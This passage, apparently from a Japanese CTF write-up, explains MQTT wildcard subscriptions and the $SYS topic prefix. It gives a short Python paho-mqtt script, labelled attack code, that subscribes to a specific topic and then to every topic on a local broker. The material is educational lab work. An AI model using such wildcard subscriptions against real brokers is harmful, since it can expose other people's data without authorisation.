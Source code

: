 \$SYS はサーバー固有の情報または制御 API を含むトピックの接頭辞として広く採用されている

- \# では \$SYS/ から始まるトピックを得られない

- \$SYS/# と指定することで \$SYS/ から始まるトピックを得ることができる

- すべてのトピックを得るためには \# と \$SYS/# の両方を試す必要がある

> \$ から始まるトピックではメッセージのやりとりを行わないことが推奨されている

# 攻撃コード

<https://pypi.org/project/paho-mqtt/>

paho-mqtt ライブラリを使用して Subscriber を作りワイルドカードを試していく

## ソースを再現する

```python
import paho.mqtt.client as mqtt

def on_connect(client, userdata, flags, respons_code):
    print('connected')
    client.subscribe('hxp.io/temperature/Munich')

def on_message(client, userdata, msg):
    print(msg.topic)
    print(str(msg.payload))

client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('127.0.0.1', 60805, 60)
client.loop_forever()
```

```
hxp.io/temperature/Munich
b'13.37'
```

hxp.io/temperature/Munich というトピックから 13.37 というメッセージを得た

## Multi-level wildcard を試す

```python
def on_connect(client, userdata, flags, respons_code):
    print('connected')
    client.subscribe('#')
```

```
hxp.io/temperature/Munich
b'13.37'
```
